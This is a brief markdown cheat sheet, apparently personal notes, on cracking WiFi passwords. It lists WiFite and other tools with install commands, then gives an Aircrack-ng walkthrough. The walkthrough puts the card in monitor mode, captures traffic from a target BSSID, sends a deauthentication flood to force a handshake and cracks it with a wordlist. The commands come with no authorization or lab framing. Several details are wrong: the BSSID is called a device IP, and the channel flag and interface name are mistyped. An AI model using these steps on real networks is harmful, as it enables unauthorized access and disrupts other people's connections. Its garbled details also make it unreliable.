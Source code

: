 WiFite
[https://code.google.com/p/wifite/](https://code.google.com/p/wifite/)
[https://github.com/derv82/wifite](https://github.com/derv82/wifite)


`sudo wifite`
.. ou
```
wget https://raw.github.com/derv82/wifite/master/wifite.py

chmod +x wifite.py

./wifite.py
```
.. ou
`apt-get install wifite`


------------------------------------

[Aircrack-ng](https://www.aircrack-ng.org/)


Boot USB Live Kali Linux
```
ifconfig
airmon-ng
airmon-ng check kill
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng --bssid D4:76.......B5 -c l -w /root/Desktop/wifi wlan-mon
```

    _--bssid (devide IP)_
    _-c (chainals)_

Note: open new terminal for capture handshake files and copy this files and go to the windows
`aireplay-ng --deauth 20 -a D4:76.......B5 wlan0mon`
Instal Aircrack-ng GUI tools in Windows

Choose your capture file .cap and Wordlist. Then hit launch button.

------------------------------------

[Fern Wifi Cracker](https://github.com/savio-code/fern-wifi-cracker)

[Macchanger](https://github.com/alobbs/macchanger)

[Wireshark](https://www.wireshark.org/)

[PixieWPS](https://github.com/wiire/pixiewps/)